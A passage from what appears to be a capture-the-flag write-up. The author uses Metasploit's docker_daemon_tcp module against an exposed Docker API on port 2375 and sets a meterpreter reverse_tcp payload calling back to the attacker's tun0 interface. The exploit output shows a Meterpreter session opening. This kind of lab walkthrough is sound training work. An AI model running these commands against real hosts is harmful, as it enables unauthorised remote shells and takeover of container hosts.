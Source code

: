 'exploit/linux/http/docker_daemon_tcp' looks perfect.

```highlight
msf6 > use 2
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/docker_daemon_tcp) > set rhost localhost
rhost => localhost
msf6 exploit(linux/http/docker_daemon_tcp) > set lhost tun0
lhost => tun0
msf6 exploit(linux/http/docker_daemon_tcp) > show options

Module options (exploit/linux/http/docker_daemon_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   CONTAINER_ID                   no        container id you would like
   DOCKERIMAGE   alpine:latest    yes       hub.docker.com image to use
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        localhost        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         2375             yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                          no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux x64


msf6 exploit(linux/http/docker_daemon_tcp) > 
```

Now I just run the exploit and get a shell.

```highlight
msf6 exploit(linux/http/docker_daemon_tcp) > exploit
[*] Exploiting target {:address=>"0.0.0.1", :hostname=>"localhost"}

[*] Started reverse TCP handler on <Machine IP>:4444 
[-] Failed to connect to the target
[-] Exploit aborted due to failure: unknown: Failed to connect to the target
[*] Exploiting target {:address=>"127.0.0.1", :hostname=>"localhost"}
[*] Started reverse TCP handler on <Machine IP>:4444 
[*] The docker container is created, waiting for deploy
[*] Waiting for the cron job to run, can take up to 60 seconds
[*] Sending stage (3012548 bytes) to 10.10.59.151
[+] Deleted /etc/cron.d/GOKzWbNu
[+] Deleted /tmp/nCJrYRbW
[*] Meterpreter session 1 opened (<Machine IP>:4444 -> 10.10.59.151:41406) at 2021-08-13 16:39:05 +0100
[*] Session 1 created in the background.
msf6 exploit(linux/http/docker_daemon_tcp) > sessions 1
[*] Starting interaction with 1...
```